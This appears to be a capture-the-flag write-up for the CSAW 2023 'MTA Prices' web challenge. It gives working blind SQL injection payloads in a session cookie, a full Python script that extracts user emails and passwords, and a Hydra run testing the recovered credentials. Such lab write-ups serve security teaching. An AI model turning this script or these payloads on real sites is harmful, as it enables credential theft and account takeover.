 # MTA Prices (named cookie-injection in the source code)

- source code: [CSAW-CTF-2023-Quals/web/cookie-injection at main · osirislab/CSAW-CTF-2023-Quals](https://github.com/osirislab/CSAW-CTF-2023-Quals/tree/main/web/cookie-injection)

## Setup

```bash
docker build -t csaw23/mta_prices .
docker run --rm -p 5800:5800 -it csaw23/mta_prices
echo 127.0.0.1 web.csaw.io | tee -a /etc/hosts
```

## Flag

flag{cheaper_prices_in_NYC_PLZ}

## Solution

1. Leak login credentials by SQL Injection in `session=` cookie.
2. Login `emily.brown@mta.com` user and change the price.

## Research

There is Boolean based SQL Injection Vulnerability in `session=` cookie.
If `email` field value in the base64-decoded response cookie is `Error`, it's False.
Otherwise, True.

payload:

- True: `' OR 1='1`
- False: `' OR 1='2`

![mta-prices_cookie_sqi_failure.png](img/mta-prices_cookie_sqi_failure.png) 

![mta-prices_cookie_sqi_success.png](img/mta-prices_cookie_sqi_success.png) 

Implemented python script [1].
Manually checking the DB version, tables, etc.

```bash
# DB Version: MySQL 8.0.*
python3 exploit-cookie.py "' OR SUBSTR(VERSION(),1,3)='8.0"
# => True

# check to exist users table
python3 exploit-cookie.py "' OR (SELECT 'a' FROM INFORMATION_SCHEMA.TABLES WHERE table_name='users')='a"
# => True

# record size: 20
python3 exploit-cookie.py "' OR (SELECT COUNT(*) FROM users)='20"
# => True

# check to exist email and password columns (20 in decimal is space in ASCII)
python3 exploit-cookie.py "' OR ASCII(SUBSTR((SELECT email FROM users LIMIT 1,1),1,1))>'20"
python3 exploit-cookie.py "' OR ASCII(SUBSTR((SELECT password FROM users LIMIT 1,1),1,1))>'20"
# => True
```

Implemented script to get all user email and password [1].
Ran this, the got email and password will be saved in a file called `creds.txt`.

See if I can login or not with hydra:

```console
root@kali:~/ctf/CSAW-CTF-2023-Quals/web/cookie-injection# hydra -C creds.txt 'http-post-form://web.csaw.io:5800/submit:email=^USER^&password=^PASS^:Sorry, this user is does'
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-26 18:23:09
[DATA] max 16 tasks per 1 server, overall 16 tasks, 19 login tries, ~2 tries per task
[DATA] attacking http-post-form://web.csaw.io:5800/submit:email=^USER^&password=^PASS^:Sorry, this user is does
[5800][http-post-form] host: web.csaw.io   login: emily.brown@mta.com   password: p#2r@5ml8q7v!9x$1
[5800][http-post-form] host: web.csaw.io   login: laura.miller@mta.com   password: L$2rMlT8zW4iPc
[5800][http-post-form] host: web.csaw.io   login: sarah.harris@mta.com   password: S*9rHcW2mZ4pLs
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-26 18:23:10
```

- Login with `emily.brown@mta.com:p#2r@5ml8q7v!9x$1`
- `Edit Details` in `Single Ride Pass`
- Input 2.75 `Change Price:` form, then Save.


![flag.png](img/flag.png) 

## Exploit code

<details><summary>[1] exploit-cookie.py</summary>

```python
import requests
import sys
import base64
import json

import concurrent.futures

s = requests.Session()
# s.proxies = {"http": "http://127.0.0.1:8080"}

possible = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!\"#$%&'()*+,-./:;<=>?@[\\]^_`{|}~"


def send_request(trackingID: str) -> requests.Response:
    headers = {"Cookie": f"trackingID={trackingID};"}
    resp = s.get("http://web.csaw.io:5800/", headers=headers)

    return resp


def parse_session_cookie(session: str) -> str:
    try:
        session = base64.b64decode(session.split(".")[0] + "=" * (-len(session) % 4))
        email = json.loads(session)["email"]
        return email
    except Exception as e:
        print("Error occurs" + e)


def judge(resp: requests.Response) -> bool:
    email = parse_session_cookie(resp.cookies.get("session"))

    if email == "Error":
        return False
    else:
        return True


def get_credential(record_num: int) -> list[dict]:
    credential = {}
    for column in ["email", "password"]:
        length = 0
        for i_len in range(40):
            payload = f"' OR (SELECT LENGTH({column}) FROM users LIMIT {record_num},1)='{i_len}"
            resp = send_request(payload)
            if judge(resp):
                length = i_len
                break

        value = ""
        for i_len in range(1, length + 1):
            for c in possible:
                c_ascii = ord(c)
                # print(f"{column}: {value+c}", end="\r", flush=True)
                payload = f"' OR ASCII(MID((SELECT {column} FROM users LIMIT {record_num},1),{i_len},1))='{c_ascii}"
                resp = send_request(payload)
                if judge(resp):
                    value += c
                    break

        assert length == len(value)
        credential[column] = value

    return credential


def main():
    if sys.argv[1] == "get_credentials":
        credentials = []
        with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
            futures = [
                executor.submit(get_credential, record_num)
                for record_num in range(1, 20)
            ]

            for future in concurrent.futures.as_completed(futures):
                credentials.append(future.result())

        print(credentials)
        with open(f"creds.txt", "w") as f:
            for c in credentials:
                f.write(f"{c['email']}:{c['password']}\n")

    else:
        trackingID = sys.argv[1]
        resp = send_request(trackingID)
        print(judge(resp))


if __name__ == "__main__":
    main()
```

</details>

## References

- [What is Blind SQL Injection? Tutorial & Examples \| Web Security Academy](https://portswigger.net/web-security/sql-injection/blind)
- [concurrent.futures — Launching parallel tasks — Python 3.11.5 documentation](https://docs.python.org/3/library/concurrent.futures.html#threadpoolexecutor-example)

